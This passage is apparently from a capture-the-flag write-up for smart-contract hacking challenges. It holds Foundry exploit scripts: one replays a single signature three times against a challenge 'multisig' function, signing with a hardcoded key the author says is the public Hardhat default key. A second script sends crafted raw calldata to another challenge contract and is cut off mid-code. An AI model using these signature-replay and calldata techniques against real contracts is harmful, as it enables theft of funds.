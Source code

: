     ```solidity
    contract MetalKnuckle is Script {
        function run() public {
            vm.startBroadcast();
            address deploy = 0x6Dd509F963820F3950A56E3C0ABECdF8b3e92434;
            address addr = 0x702105690fCbfC7588254bA71f0EEA60663c2534;
            address signer = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
            uint256 signer_private_key = 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80;
            bytes32 message = keccak256(abi.encodePacked(bytes32(uint256(uint160(signer))), bytes32(uint256(uint160(addr)))));
            (uint8 v, bytes32 r, bytes32 s) = vm.sign(signer_private_key, message);
            IPermitToReenter.Sig[] memory sig = new IPermitToReenter.Sig[](3);
            sig[0] = IPermitToReenter.Sig({_index: 1, hashed: message, v: v, r: r, s: s});
            sig[1] = IPermitToReenter.Sig({_index: 1, hashed: message, v: v, r: r, s: s});
            sig[2] = IPermitToReenter.Sig({_index: 1, hashed: message, v: v, r: r, s: s});
            IPermitToReenter(deploy).multisig(sig);
            vm.stopBroadcast();
        }
    }
    ```
    
- writeup
searched `0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266` address  in google, and found  a private key [`https://ethereum.stackexchange.com/questions/94886/hardhat-local-network-keys-generation`](https://ethereum.stackexchange.com/questions/94886/hardhat-local-network-keys-generation)
so we could sign arbitrary message and sent same signed messages in `multisig` function to solve.

## Vector’s 3-Bit Surfer Island

[challenge link](https://github.com/cantinasec/vienna_hackathon_2025/tree/main/VECTOR'S_3BIT_SURFER_ISLAND\)
---


Transaction hash:  0x68bb55ae163d192fe9d65e8dfafc91b3c6d9ac3d9b668661419dcf389a41031b

- exploit code
    
    ```solidity
    import {Script} from "forge-std/Script.sol";
    import {console} from "forge-std/console.sol";
    contract Hard2Script is Script {
    
        function run() public {
            vm.startBroadcast();
    
            address chall = 0x4328B9410575a383349F2e88644C933F91c6A5C6;
    
            bytes memory data = abi.encodePacked(
                bytes4(hex"00000000"),
                uint256(27684352554021427800379120908796796058859940284427164423451880434819558757544),
                uint256(43736918673050163201934668174654671028240)
            );
    
            (bool success, bytes memory result) = chall.call(data);
            require(success, "Call failed");
    